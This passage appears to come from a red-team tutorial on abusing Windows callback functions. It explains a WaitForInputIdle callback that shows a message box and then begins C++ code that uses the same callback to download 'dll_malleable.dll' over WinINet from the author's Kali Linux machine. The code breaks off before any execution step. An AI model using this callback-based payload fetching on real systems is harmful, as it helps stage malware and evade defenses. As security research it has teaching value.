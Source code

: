 Well, it executes! :)

So what's happening over here ?

> At the beginning, the program defines a custom callback function called MyWaitForInputIdleRoutine, which takes a process handle and timeout value as inputs and displays a message box with a greeting before returning zero. The program also defines a function pointer type that matches the signature of the WaitForInputIdle function from the Windows API and a global variable to store a pointer to a custom implementation of this function.
>
> Then, inside the main function, the program registers the custom implementation of the WaitForInputIdle function and launches the Windows calculator using the defined WinExec function. If the custom implementation registration is successful , then it will wait for the launched process to become idle using the MyWaitForInputIdleRoutine callback function before closing the process and thread handles and returning zero.

In the next example, we will go through on how to download a file using callback function. Let's dive in!

## Using RegisterWaitForInputIdle to download a file

After, executing our simple Messagebox, the next step we will be seeing is to download a file from our Kali Linux VM using Windows API such as [InternetOpenA](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena) which is a part of wininet.h header file.
```cpp
#include <windows.h>\
#include <wininet.h>\
#include <iostream>\
#include <fstream>\
#include <winternl.h>\
#include <TlHelp32.h>

#pragma comment(lib, "wininet.lib")

DWORD MyWaitForInputIdleRoutine(HANDLE hProcess, DWORD dwMilliseconds)\
{\
    HINTERNET hInternet = InternetOpen(L"CallbackTest", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);\
    if (!hInternet)\
    {\
        std::cout << "Failed to initialize WinINet session\n";\
        return 1;\
    }

    HINTERNET hConnect = InternetConnect(hInternet, L"192.XXX.XX.XX", 80, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0);\
    if (!hConnect)\
    {\
        std::cout << "Failed to connect to remote host\n";\
        InternetCloseHandle(hInternet);\
        return 1;\
    }

    HINTERNET hRequest = HttpOpenRequest(hConnect, L"GET", L"/dll_malleable.dll", NULL, NULL, NULL, 0, 0);\
    if (!hRequest)\
    {\
        std::cout << "Failed to open HTTP request\n";\
        InternetCloseHandle(hConnect);\
        InternetCloseHandle(hInternet);\
        return 1;\
    }

    BOOL bSendRequest = HttpSendRequest(hRequest, NULL, 0, NULL, 0);\
    if (!bSendRequest)\
    {\
```